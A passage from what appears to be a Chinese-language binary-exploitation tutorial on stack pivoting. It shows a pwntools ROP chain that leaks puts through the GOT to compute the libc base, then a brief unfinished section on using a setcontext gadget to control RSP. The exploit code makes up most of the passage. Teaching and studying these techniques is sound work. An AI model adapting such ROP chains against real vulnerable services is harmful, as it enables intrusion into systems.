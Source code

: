 ```python
p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x00: [
        p64(0xdeadbeef),
        p64(pop_rdi),
        p64(puts_got),
        p64(puts_plt),
    ],
    0x1000: [
        p64(0x00404500),
        p64(leave_ret),
    ]
})

p.send(payload)

puts_addr = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

p.interactive()
```

对于栈帧的变化如下：

![img](images/ROP_Tricks/stack_migration_3.gif)

### 堆与栈迁移

用`setcontext`开头的一个一段gadget可以控制大部分寄存器，其中就包括`RSP`寄存器。

具体用法：

咕咕咕

